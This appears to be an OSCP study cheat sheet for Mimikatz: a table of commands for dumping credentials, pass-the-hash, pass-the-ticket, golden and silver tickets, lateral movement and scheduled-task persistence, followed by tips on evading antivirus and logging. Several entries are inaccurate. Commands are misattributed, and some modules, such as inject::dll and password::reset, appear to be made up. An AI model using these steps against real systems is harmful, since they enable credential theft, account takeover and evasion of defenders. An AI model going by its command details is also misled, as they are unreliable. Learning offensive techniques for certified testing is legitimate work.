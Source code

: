 | **Category** | **Purpose** | **Command Examples** | **Notes** |
| --- | --- | --- | --- |
| **Basic Command** | Run Mimikatz and check for available modules | `mimikatz` | Running `mimikatz` without arguments opens the Mimikatz command prompt, from which you can run various commands. |
| **Check for Privileges** | Display current user’s privileges | `privilege::debug` | Needed to elevate privileges if not already running as SYSTEM or admin. Some commands require the `debug` privilege. |
| **Dumping Password Hashes** | Dump hashes from local SAM (Security Account Manager) | `sekurlsa::logonpasswords` | This command lists all the cleartext passwords, NTLM hashes, and Kerberos tickets of the current user. |
| **Dumping Hashes with LSASS** | Dump hashes from LSASS (Local Security Authority Subsystem Service) | `sekurlsa::ekeys` | Extracts cached credentials from memory, similar to `logonpasswords`. |
| **Pass-the-Hash (PTH)** | Use NTLM hash to authenticate without knowing the password | `sekurlsa::pth /user:Administrator /domain:WORKGROUP /sid:S-1-5-32-544 /rc4:9447fbc83974323e3fc463129ef70631` | Allows login using hashes instead of plaintext passwords. Use this to impersonate another user. The SID and hash are required. |
| **Extracting Tickets** | Dump Kerberos tickets from the memory | `kerberos::list` | Displays Kerberos tickets stored in memory. These are used in ticket forwarding or pass-the-ticket (PTT) attacks. |
| **Pass-the-Ticket (PTT)** | Use a Kerberos ticket to authenticate as another user | `kerberos::ptt <ticketfile>` | Takes a saved Kerberos ticket (TGT) and injects it into the current session. Useful for impersonating a user without needing a password. |
| **LSASS Memory Dump** | Dump the LSASS process memory to get credentials | `sekurlsa::minidump C:\\lsass.dmp` | Dumps the LSASS process memory to a `.dmp` file, which can later be analyzed to retrieve passwords, hashes, and other sensitive information. |
| **Injecting DLL** | Inject a malicious DLL into another process | `inject::dll <path_to_dll> <process_id>` | Can be used to escalate privileges by injecting a malicious DLL into a vulnerable process (e.g., `explorer.exe`). |
| **Golden Ticket Attack** | Create and use a forged Kerberos ticket | `kerberos::golden /user:Administrator /domain:workgroup.local /sid:S-1-5-21-1550057236-2023182416-1374000000` | Golden Tickets are forged Kerberos tickets with arbitrary privileges, allowing persistence and access to domain resources indefinitely until the ticket expires. |
| **Silver Ticket Attack** | Forge a Kerberos Service Ticket | `kerberos::tgt /user:Administrator /rc4:<hash> /domain:workgroup.local /sid:S-1-5-21-1550057236-2023182416-1374000000` | Silver Tickets are service tickets (TGS) that can be used to authenticate to specific services like SMB or RDP without needing a full Golden Ticket. |
| **Dumping Credentials** | Dump stored credentials from the system | `sekurlsa::logonpasswords` | Displays usernames, passwords, and NTLM hashes from logged-in users. |
| **Dumping Cached Credentials** | Dump cached credentials on a local machine | `lsadump::cache` | Displays cached login credentials stored on a Windows machine. These are often useful for offline cracking. |
| **Overpass-the-Hash (Pass the Key)** | Use an NTLM hash to obtain a TGT (Ticket Granting Ticket) without a password | `kerberos::ptt /user:Administrator /rc4:<NTLM_hash>` | Obtain a TGT (Kerberos Ticket) using just an NTLM hash, useful for Kerberos-based authentication. |
| **Kerberos Ticket Renewal** | Renew Kerberos TGT tickets | `kerberos::renew` | Allows attackers to refresh Kerberos tickets that are about to expire. |
| **Dumping Domain Trusts** | Dump information about domain trusts | `lsadump::trusts` | Useful for gathering information about trust relationships between domains, which can be used to pivot within networks. |
| **Get TGT** | Obtain a Ticket Granting Ticket (TGT) for a user | `kerberos::tgt /user:<user> /domain:<domain> /rc4:<NTLM_hash>` | Generates a Kerberos ticket granting access to the domain. Useful for lateral movement in a domain environment. |
| **Resetting Passwords** | Reset the password of a domain user | `password::reset /user:<username> /domain:<domain> /newpassword:<new_password>` | This command allows you to reset the password of a user, essentially locking them out and controlling their account. |
| **Dumping LSA Secrets** | Dump Local Security Authority secrets | `lsadump::secrets` | Dumps all the secrets stored in the Local Security Authority (LSA) database, which could include service account passwords, machine account passwords, etc. |
| **Pivoting** | Move laterally through a network | `mimikatz.exe /user:<target_user> /rc4:<NTLM_hash> /domain:<domain>` | Use credentials obtained from one machine to move laterally to other machines in the network. This command is used to pass the hash or credentials to new machines. |
| **Persistence** | Setup persistence with Mimikatz | `schtasks /create /tn <TaskName> /tr "cmd.exe /c mimikatz.exe" /sc onstart` | Useful for setting up persistence after obtaining initial access. Configures a scheduled task to execute Mimikatz automatically when the system starts. |

### Side Notes from Studying

- **Privilege Escalation:** Many Mimikatz features require administrative or SYSTEM privileges. Use techniques like **`privilege::debug`** to elevate.
- **Persistence & Lateral Movement:** After gaining initial access, Mimikatz can help you maintain control (e.g., **Golden Tickets**, **Silver Tickets**) and move laterally through a network.
- **Antivirus Evasion:** Mimikatz is a powerful tool, but it’s often detected by AV software. Use encoding, obfuscation, or injection techniques to bypass AV defenses.
- **Logging and Detection:** Be cautious, as Mimikatz actions are often logged (especially if you use the `kerberos::golden` attack). Use it in areas of the network where logging might not be as strict (e.g., local systems).

### Misc Tips

- **Run Mimikatz on a Compromised Host:** After compromising a Windows machine, run `mimikatz` to extract credentials and escalate privileges.
- **Test with Limited Credentials:** Test the impact of dumping credentials from non-administrative accounts and see how it affects lateral movement in the exam environment.
- **Practice the Pass-the-Hash and Pass-the-Ticket Techniques:** Mimikatz is essential for these techniques, which are key OSCP skills for lateral movement.
